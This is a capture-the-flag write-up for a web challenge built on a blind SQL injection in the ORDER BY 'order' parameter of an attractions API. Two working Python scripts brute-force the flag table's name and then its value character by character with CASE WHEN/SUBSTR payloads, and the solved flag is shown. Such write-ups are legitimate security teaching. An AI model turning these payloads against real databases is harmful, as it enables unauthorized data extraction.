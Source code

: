 # The Data Whisperer


**Which of Iran's attractions have you seen?**
To begin your investigation and uncover the secrets hidden within, visit [sam.uctf.ir](https://sam.uctf.ir/). Your journey starts here!


# Write Up

In this challenge, you'll be exploiting a **blind SQL injection vulnerability** in an API that powers a website displaying famous attractions of Iran. Your goal is to extract a hidden flag stored in the database by taking advantage of an unsanitized input in the `order` parameter of the `/attractions` API.

### Overview:

The vulnerable API accepts user input to sort attractions by various fields like `name` or `count`, but it fails to properly sanitize the input before including it in a SQL query. This leaves the API susceptible to SQL injection, allowing attackers to manipulate the query and extract data from the database.

Your objective is to:
1. Discover the **name of the table** containing the flag, which starts with `flag_`.
2. Extract the **value of the flag** stored within that table.

To successfully solve this challenge, you’ll need to craft SQL payloads using conditional logic (`CASE WHEN`) and utilize the `SUBSTR` function to brute-force both the table name and the flag value one character at a time.

Let's dive into the exploitation process and retrieve that flag!


### Part 1: Finding the Table Name

This code bruteforces the table name by testing each character of the table name (which starts with `flag`), using the `SUBSTR` SQL function in a blind SQL injection payload.

```python
import requests

URL = "http://website-url.com/attractions"
headers = {"Content-Type": "application/json"}

# Function to brute-force the table name
def brute_force_table_name():
    table_name = ""
    position = 1  # Start at the first character position
    found_flag = False

    while not found_flag:
        found_character = False
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}":  # Possible characters in the table name
            payload = {
                "order": f"(CASE WHEN (SELECT SUBSTR(name,{position},1) FROM sqlite_master WHERE type='table' AND name LIKE 'flag%')='{char}' THEN count ELSE id END) DESC"
            }
            response = requests.post(URL, json=payload, headers=headers)
            
            # Check if the payload was successful
            if response.json()[0]["id"] == 1:
                table_name += char
                print(f"Found character {char} at position {position}")
                position += 1
                found_character = True
                break
        
        if not found_character:
            found_flag = True

    return table_name

table_name = brute_force_table_name()
print(f"Table name: {table_name}")
```


### Part 2: Finding the Value of the Flag

Once the table name has been identified (which should be something like `flag_xyz`), you can use a similar approach to brute-force the value of the `flag` stored in that table.

```python
# Function to brute-force the flag value
def brute_force_flag_value(table_name):
    flag_value = ""
    position = 1  # Start at the first character position
    found_flag = False

    while not found_flag:
        found_character = False
        for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}":  # Possible characters in the flag
            payload = {
                "order": f"(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{char}' THEN count ELSE id END) DESC"
            }
            response = requests.post(URL, json=payload, headers=headers)
            
            # Check if the payload was successful
            if response.json()[0]["id"] == 1:
                flag_value += char
                print(f"Found character {char} at position {position}")
                position += 1
                found_character = True
                break
        
        if not found_character:
            found_flag = True

    return flag_value

flag_value = brute_force_flag_value(table_name)
print(f"Flag value: {flag_value}")
```

### Explanation:

1. **Brute-forcing the Table Name**: 
   - The payload used is: `"(CASE WHEN (SELECT SUBSTR(name,{position},1) FROM sqlite_master WHERE type='table' AND name LIKE 'flag%')='{character}' THEN count ELSE id END) DESC"`
   - The code iterates over possible characters in the table name, testing one character at a time and checking if the response differs, which indicates that the character is correct.

2. **Brute-forcing the Flag Value**:
   - The payload used is: `"(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) DESC"`
   - After identifying the table name, the code similarly brute-forces each character of the flag value stored in the table.

### Write-up Conclusion:

- This SQL injection vulnerability exists due to unsanitized input in the `ORDER BY` clause of the SQL query.
- By sending crafted SQL injection payloads via the `/attractions` API call, it's possible to extract both the table name (which starts with `flag`) and the flag value.
- The payloads are crafted to use the `SUBSTR` function in combination with conditional logic (`CASE WHEN`), which allows us to determine each character of the target string one by one.




# Flag


```
UCTF{74kh73_5013ym4n_4nc13n7_w0nd325}
```

# Categories

- [X] Web
- [ ] Reverse
- [ ] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Steganography
- [ ] Android

# Points

| Warm up | This Challenge  | Evil |
| ------- |:---------------:| ----:|
| 25      |  	  250		| 500  |
